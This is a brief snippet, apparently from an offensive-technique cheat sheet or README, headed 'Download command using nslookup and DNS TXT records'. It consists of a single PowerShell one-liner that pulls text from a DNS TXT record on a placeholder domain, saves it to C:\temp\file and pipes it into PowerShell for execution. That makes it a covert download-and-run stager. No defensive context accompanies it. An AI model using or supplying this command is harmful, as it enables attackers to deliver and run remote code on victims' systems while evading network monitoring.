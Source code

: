 ### Download command using nslookup and DNS TXT records
```
$s=echo (nslookup -q=txt <subdomain>.<domain>.<tld>)[-1].Trim();$s.SubString(1,$s.Length-2)>C:\temp\file;type C:\temp\file|powershell
```

